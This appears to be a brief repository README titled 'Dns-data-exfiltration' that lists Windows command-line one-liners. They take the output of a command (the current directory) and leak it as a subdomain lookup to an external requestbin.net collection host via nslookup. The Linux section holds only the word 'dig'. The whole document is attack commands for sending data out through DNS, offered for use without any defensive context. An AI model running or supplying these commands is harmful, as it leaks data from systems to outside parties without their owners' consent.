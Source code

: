 # Dns-data-exfiltration

## Windows
```
for /f %i in ('cd') do nslookup %i.4f4984e83e92a11d53b7.d.requestbin.net
for /f "tokens=1" %i IN ('cd') do (nslookup %i.4f4984e83e92a11d53b7.d.requestbin.net)
```
## Linux
```
dig
```
